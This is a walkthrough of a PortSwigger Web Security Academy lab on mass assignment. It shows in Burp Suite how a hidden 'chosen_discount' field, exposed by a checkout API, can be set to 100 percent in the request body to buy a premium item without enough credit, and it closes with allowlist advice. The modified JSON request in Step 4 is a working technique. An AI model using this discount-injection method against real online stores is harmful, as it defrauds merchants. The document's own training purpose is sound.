





# 📌 Overview

This walkthrough demonstrates the identification and exploitation of a Mass Assignment vulnerability within an API-driven web application.

The application exposes internal object properties through its API and automatically binds user-supplied JSON parameters to server-side objects. During testing, a hidden discount parameter was discovered within the checkout API response.

By modifying this hidden parameter and submitting a crafted checkout request, it was possible to apply a 100% discount to a premium product and complete the purchase despite having insufficient store credit.

---

# 🛠 Tools Used

| Tool                             | Purpose                             |
| -------------------------------- | ----------------------------------- |
| Kali Linux                       | Operating environment               |
| Firefox Browser                  | Browser interaction                 |
| Burp Suite Community Edition     | Intercepting and modifying requests |
| Burp Repeater                    | Crafting and replaying requests     |
| PortSwigger Web Security Academy | Vulnerable target application       |

---

# 🧭 Walkthrough

## Step 1 - Access the Lab

Opened the PortSwigger Web Security Academy lab:

**Exploiting a Mass Assignment Vulnerability**

The lab description explained that the application contained a Mass Assignment vulnerability that could be abused to purchase a premium item without sufficient funds.

The objective was to purchase the following item:

```text
Lightweight "l33t" Leather Jacket
```

using the provided account:

```text
Username: wiener
Password: peter
```

✔ Lab initialized successfully

📸 Evidence 1 - Lab description and objective



---

## Step 2 - Inspect the Checkout API

After authenticating and adding the target product to the cart, Burp Suite was used to inspect API traffic generated during checkout.

A request to the following endpoint was identified:

```http
GET /api/checkout
```

The API response exposed internal application objects, including a hidden discount parameter:

```json
{
    "chosen_discount": {
        "percentage": 0
    },
    "chosen_products": [
        {
            "product_id": "1",
            "name": "Lightweight \"l33t\" Leather Jacket",
            "quantity": 1,
            "item_price": 133700
        }
    ]
}
```

The presence of the hidden parameter:

```json
{
    "chosen_discount": {
        "percentage": 0
    }
}
```

suggested that discount values were stored within an object that could potentially be modified by user-controlled input.

✔ Hidden parameter identified

📸 Evidence 2 - Checkout API response revealing hidden discount object



---

## Step 3 - Analyze the Checkout Request

The checkout request was sent to Burp Repeater for further testing.

The original request contained only the product information:

```json
{
    "chosen_products": [
        {
            "product_id": "1",
            "quantity": 1
        }
    ]
}
```

Submitting the request generated the following response:

```http
HTTP/2 201 Created
Location: /cart?err=INSUFFICIENT_FUNDS
```

This confirmed that the purchase could not be completed under normal conditions because the account did not contain enough store credit.

✔ Checkout request analyzed

📸 Evidence 3 - Original checkout request failing due to insufficient funds



---

## Step 4 - Exploit the Mass Assignment Vulnerability

The hidden parameter discovered during API analysis was manually inserted into the checkout request.

The modified request became:

```json
{
    "chosen_discount": {
        "percentage": 100
    },
    "chosen_products": [
        {
            "product_id": "1",
            "quantity": 1
        }
    ]
}
```

The request was then submitted through Burp Repeater.

Because the application automatically mapped user-controlled JSON properties to backend objects, the server accepted the modified discount value and processed the order.

The response returned:

```http
HTTP/2 201 Created
Location: /cart/order-confirmation?order-confirmed=true
```

✔ Unauthorized discount successfully applied

✔ Order created successfully

📸 Evidence 4 - Modified checkout request exploiting the hidden discount parameter



---

## Step 5 - Verify Lab Completion

After the modified checkout request was accepted, the application completed the purchase despite the account having insufficient store credit.

Returning to the lab page confirmed successful exploitation of the vulnerability.

The Web Security Academy interface displayed:

```text
LAB Solved
```

confirming that the Mass Assignment vulnerability had been successfully exploited.

✔ Product purchased successfully

✔ Lab marked as solved

📸 Evidence 5 - Lab solved confirmation




---

# 📌 Conclusion

This walkthrough demonstrated the successful exploitation of a Mass Assignment vulnerability within an API-based checkout process. By inspecting API responses, identifying hidden parameters, and modifying a backend discount object, it was possible to apply a 100% discount to a premium product and bypass intended purchasing restrictions.

The attack highlights the dangers of automatically binding user input to server-side objects without implementing strict parameter allowlists and server-side authorization controls. Applications should only accept explicitly permitted fields and reject all unexpected user-supplied properties to prevent unauthorized manipulation of business logic.

---

This work is part of FuzzRaiders' structured hands-on training and research program, where every lab, project, and technical study is formally documented, reviewed, and validated to ensure real-world applicability and methodological rigor.

Happy hacking 🚀

---


